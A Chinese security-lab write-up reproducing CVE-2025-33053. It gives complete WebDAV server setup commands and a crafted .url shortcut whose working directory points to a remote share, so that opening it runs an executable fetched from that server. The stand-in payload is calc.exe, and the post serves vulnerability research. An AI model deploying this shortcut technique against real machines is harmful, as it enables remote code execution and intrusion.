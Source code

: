 #  CVE-2025-33053 网络快捷方式文件远程代码执行漏洞  
原创 毕方安全实验室  BeFun安全实验室   2025-06-24 06:32  
  
   
  
# CVE-2025-33053 网络快捷方式文件远程代码执行漏洞  
## 背景  
  
微软6月修复了一个网络快捷方式的漏洞，由checkpoint捕获的APT组织**Stealth Falcon**  
样本中发现的。  
## 复现  
  
设置.url  
文件的WorkingDirectory  
为远程恶意服务器的webdav  
文件夹, 在打开时会调用iediagcmd.exe  
, 进而调用同目录下的route.exe  
, 因为工作文件夹设置成了恶意服务器上的路径, 就会启动恶意服务器的route.exe  
, 具体复现如下:  
### 创建webdav服务器  
  
安装：  
```
sudo apt update && sudo apt upgrade -ysudo apt install apache2 apache2-utils -ysudo a2enmod davsudo a2enmod dav_fssudo systemctl restart apache2sudo mkdir -p /var/www/webdavsudo chown www-data:www-data /var/www/webdavsudo chmod 755 /var/www/webdavsudo vim /etc/apache2/sites-available/webdav.conf
```  
  
配置文件：  
```
<VirtualHost *:80>    ServerAdmin webmaster@localhost    DocumentRoot /var/www/webdav    <Directory /var/www/webdav>        Options Indexes FollowSymLinks        AllowOverride None        DAV On        Require all granted    </Directory>    ErrorLog ${APACHE_LOG_DIR}/webdav_error.log    CustomLog ${APACHE_LOG_DIR}/webdav_access.log combined</VirtualHost>
```  
  
重启：  
```
sudo a2ensite webdav.confsudo a2dissite 000-default.confsudo systemctl reload apache2
```  
  
从本地计算机复制一份iediagcmd.exe  
到webdav  
文件夹, 然后把calc.exe  
复制到webdav  
文件夹里。  
### 制作URL文件  
  
新建一个txt，写入以下内容，WorkingDirectory  
设置为远程服务器的路径：  
```
[InternetShortcut]URL=C:\Program Files\Internet Explorer\iediagcmd.exeWorkingDirectory=\\192.168.146.138@80/DavWWWRoot\ShowCommand=7IconIndex=70IconFile=C:\Windows\System32\SHELL32.dll
```  
  
可以通过IconFile  
和IconIndex  
来设置url文件的图标  
## 最终效果  
  
## 参考  
- • CheckPoint的文章（https://research.checkpoint.com/2025/stealth-falcon-zero-day/）  
  
  
  
   
  
  
